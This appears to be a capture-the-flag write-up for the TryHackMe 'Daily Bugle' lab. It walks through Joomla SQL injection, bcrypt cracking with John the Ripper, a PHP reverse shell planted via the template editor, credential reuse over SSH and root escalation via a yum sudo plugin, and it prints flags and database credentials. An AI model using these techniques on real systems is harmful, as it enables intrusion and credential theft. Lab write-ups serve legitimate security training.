



# Daily Bugle Writeup

    Box IP Addresses:
    10.10.27.237
#1 	

Access the web server, who robbed the bank?

spiderman.

[Task 2] Obtain user and root 

#1 - What is the Joomla version?

https://www.itoctopus.com/how-to-quickly-know-the-version-of-any-joomla-website

So we navigate to: http://10.10.27.237/administrator/manifests/files/joomla.xml

Where we find the XML file that contains the Joomla version.

Also found a list of files:

#2  - *Instead of using SQLMap, why not use a python script!* What is Jonah's cracked password?

kali@kali-[10.8.82.167]:~/gitclones/joomblah-3$ python joomblah.py http://10.10.27.237
                                                                                                                                                                      
    .---.    .-'''-.        .-'''-.                                                                                                                                   
    |   |   '   _    \     '   _    \                            .---.                                                                                                
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .                                                                                   
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|                                                                                   
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |                                                                                   
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |                                                                                   
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.                                                                            
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \                                                                           
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |                                                                           
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |                                                                           
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |                                                                            
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.                                                                          
|____.'                                                                `--'  `" '---'   '---'                                                                         

 [-] Fetching CSRF token
 [-] Testing SQLi
('  -  Found table:', 'fb9j5_users')
('  -  Extracting users from', 'fb9j5_users')
(' [$] Found user', ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', ''])
('  -  Extracting sessions from', 'fb9j5_session')
kali@kali-[10.8.82.167]:~/gitclones/joomblah-3$ 

From the hash we can tell its bcrypt:

$2y$ - hash was generated with a version of bcrypt released after 2011
$10$ - This is the “cost”, as in the plaintext is run through 2^10 iterations of the blowfish cipher.

Taken from: https://unicornsec.com/home/tryhackme-crack-the-hash

So we can run JohnTheRipper on it:

    kali@kali-[10.8.82.167]:~/labs/tryhackme/daily-bugle$ john -format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt bcrypt.txt

    Using default input encoding: UTF-8
    Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
    Cost 1 (iteration count) is 1024 for all loaded hashes
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    0g 0:00:00:05 0.01% (ETA: 12:46:11) 0g/s 193.1p/s 193.1c/s 193.1C/s bullshit..piolin
    0g 0:00:03:00 0.19% (ETA: 2020-08-21 14:55) 0g/s 184.4p/s 184.4c/s 184.4C/s marshmallows..lauren10
    spiderman123     (?)
    1g 0:00:04:22 DONE (2020-08-20 12:57) 0.003812g/s 178.5p/s 178.5c/s 178.5C/s thelma1..speciala
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed

    kali@kali-[10.8.82.167]:~/labs/tryhackme/daily-bugle$ john --show bcrypt.txt
    ?:spiderman123

    1 password hash cracked, 0 left

Took about 5 minutes.

username: jonah
password: spiderman123

and we can sign in using these credentials in the login form on the website:

We can edit articles now, and hopefully upload files too...
We can go to the administrator page and log in:

Navigating to Extensions --> Templates --> Templates, we can enter either template folder, I chose Beez3, click New File, type in shell.php, and copy paste the contents of the php reverse shell into there.

Then save, start up netcat (nc -lvnp 1234), and go to:

    10.10.27.237/templates/beez3/shell.php

Searching around I find a configuration.php file which contains database username + password for root:

  public $debug = '0';
        public $debug_lang = '0';
        public $dbtype = 'mysqli';
        public $host = 'localhost';
        public $user = 'root';
        public $password = 'nv5uz9r3ZEDzVjNu';
        public $db = 'joomla';
        public $dbprefix = 'fb9j5_';
        public $live_site = '';
        public $secret = 'UAMBRWzHO3oFPmVC';
        public $gzip = '0';
        public $error_reporting = 'default';

Lets do cat /etc/passwd to see what other users there are:

    sh-4.2$ cat /etc/passwd
    root:x:0:0:root:/root:/bin/bash
    bin:x:1:1:bin:/bin:/sbin/nologin
    daemon:x:2:2:daemon:/sbin:/sbin/nologin
    adm:x:3:4:adm:/var/adm:/sbin/nologin
    lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
    sync:x:5:0:sync:/sbin:/bin/sync
    shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
    halt:x:7:0:halt:/sbin:/sbin/halt
    mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
    operator:x:11:0:operator:/root:/sbin/nologin
    games:x:12:100:games:/usr/games:/sbin/nologin
    ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
    nobody:x:99:99:Nobody:/:/sbin/nologin
    systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
    dbus:x:81:81:System message bus:/:/sbin/nologin
    polkitd:x:999:998:User for polkitd:/:/sbin/nologin
    sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
    postfix:x:89:89::/var/spool/postfix:/sbin/nologin
    chrony:x:998:996::/var/lib/chrony:/sbin/nologin
    jjameson:x:1000:1000:Jonah Jameson:/home/jjameson:/bin/bash
    apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
    mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin

We have a user called jjameson. Use the password with jjameson on ssh, and you're in!

[jjameson@dailybugle ~]$ cat user.txt
27a260fe3cba712cfdedb1c86d80442e

#3 - What is the user flag?
27a260fe3cba712cfdedb1c86d80442e

#4 - What is the root flag?

Exploit: https://gtfobins.github.io/gtfobins/yum/

Run as below:

[jjameson@dailybugle ~]$ TF=$(mktemp -d)
[jjameson@dailybugle ~]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
[jjameson@dailybugle ~]$ ls
user.txt
[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
> 
.bash_history  .bash_logout   .bash_profile  .bashrc        user.txt
>   os.execl('/bin/sh','/bin/sh')
> EOF
[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-4.2# whoami
root
sh-4.2# cat /root/root.txt

Complete!

Mistakes I made:

- Didn't look at the sudo -l privileges of jjameson.
- Didn't try out the password found in the config file, as the password for jjameson SSH.
- Stuck on uploading the shell (finding the place to upload the file).
